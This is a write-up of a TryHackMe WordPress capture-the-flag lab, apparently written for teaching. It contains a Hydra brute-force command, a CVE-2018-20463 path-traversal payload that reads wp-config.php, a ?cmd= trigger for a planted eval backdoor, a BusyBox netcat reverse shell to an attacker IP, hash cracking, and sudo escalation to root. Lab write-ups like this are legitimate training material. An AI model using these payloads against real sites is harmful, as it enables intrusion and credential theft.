

# Smoi CTF - TryHackMe Walkthrough

**Author:** David Umoh
**Challenge:** Smoi — TryHackMe CTF
**Goal:** Gain root access and capture the user and root flags

---

## Overview

This CTF involved exploiting a vulnerable WordPress installation, leveraging multiple plugin vulnerabilities to achieve RCE, and conducting lateral movement and privilege escalation using exposed credentials, group memberships, and misconfigured sudo permissions.

---

## Reconnaissance & Enumeration

### Nmap Scan:

```bash
nmap -sCV -p- <target-ip>
```

* Open Ports:

  * `22/tcp` – SSH
  * `80/tcp` – HTTP

### /etc/hosts Addition:

```bash
echo "<target-ip> smoi.thm" | sudo tee -a /etc/hosts
```

### Web Enumeration:

Accessing `http://smoi.thm` showed a WordPress site.

Using directory fuzzing:

```bash
ffuf -u http://smoi.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```

Discovered common WordPress paths:

* `/wp-login.php`
* `/wp-content/`
* `/wp-includes/`


Initial brute-force attempt on `wp-login` using Hydra failed:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt smoi.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid" -V
```

---

## Vulnerability Discovery: JSmol2WP Plugin

Using plugin fuzzing:

```bash
ffuf -u http://smoi.thm/wp-content/plugins/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Found vulnerable plugin: **JSmol2WP**

### Arbitrary File Read - CVE-2018-20463:

Used the following payload to read `wp-config.php`:

```
/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../../wp-config.php
```

### Extracted Credentials:

```php
DB_USER: wpuser
DB_PASSWORD: kbLSF2Vop#lw3rjDZ629*Z%G
```

Logged into WordPress as `wpuser` and found a private to-do list:

> "\[IMPORTANT] Check Backdoors: Verify the SOURCE CODE of 'Hello Dolly' plugin as the site's code revision."

---

## Source Code Analysis: Hello Dolly Plugin

Used the same path traversal technique:

```
/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

### Backdoor Found:

Inside the Hello Dolly plugin, discovered:

```php
eval(base64_decode('...')); // Executes commands passed via GET parameter ?cmd=
```

---

## Remote Code Execution (RCE)

Triggered RCE:

```
http://<target-ip>/wp-admin/index.php?cmd=id
```

Tested reverse shells in Python, PHP, and curl — no success. Finally, this **BusyBox payload** worked:

```bash
busybox nc 10.8.137.194 9001 -e sh
```

Listener:

```bash
nc -lvnp 9001
```

---

## Post Exploitation: WordPress SQL Dump

Located suspicious file:

```bash
/opt/wp_backup_sql
```

Extracted password hashes:

```
$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1
$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
...
```

Cracked using John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass hash.txt
```

Results:

* `gege` → `hero_gege@hotmail.com`
* `diego` → `sandiegocalifornia`

---

## User Access

Switched user:

```bash
su diego
```

Entered password: `sandiegocalifornia`

Captured user flag:

```bash
cat /home/diego/user.txt
# 45edaec653{Redacted}6b7ce72b86963
```

---

## Lateral Movement & Privilege Escalation

### Found `wordpress.old.zip` in `/home/gege`

Couldn’t unzip on target (permission issue), so:

* Switched to `think` via SSH key access
* Then to `gege` via `su` (no password required)
* Hosted file using:

```bash
python3 -m http.server 9000
```

Downloaded on local machine:

```bash
wget http://10.10.80.112:9000/wordpress.old.zip
```

Unzipped with known password (`hero_gege@hotmail.com`)
Found credentials in old `wp-config.php`:

```
Username: xavi
Password: P@ssw0rdxavi@
```

Switched to xavi:

```bash
su xavi
# Password: P@ssw0rdxavi@
```

Checked sudo access:

```bash
sudo -l
```

Result:

```bash
[sudo] password for xavi: 
Matching Defaults entries for xavi on ip-10-10-80-112:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on ip-10-10-80-112:
    (ALL : ALL) ALL
```

Escalated to root:

```bash
sudo su -
```

Captured root flag:

```bash
cat /root/root.txt
# bf89ea3ea0{Redacted}1f576214d4e4
```

---

## Flags

* **User:** `45edaec653{Redacted}6b7ce72b86963`
* **Root:** `bf89ea3ea0{Redacted}1f576214d4e4`

---

## Conclusion

This CTF demonstrated:

* Web enumeration
* Exploiting WordPress plugin vulnerability (CVE-2018-20463)
* Manual source review for backdoors
* Gaining RCE via base64 eval payloads
* Password hash cracking with John
* Multi-user privilege escalation via SSH keys and `.zip` credentials

**Great lessons in plugin abuse, privilege chaining, and full-stack enumeration.**
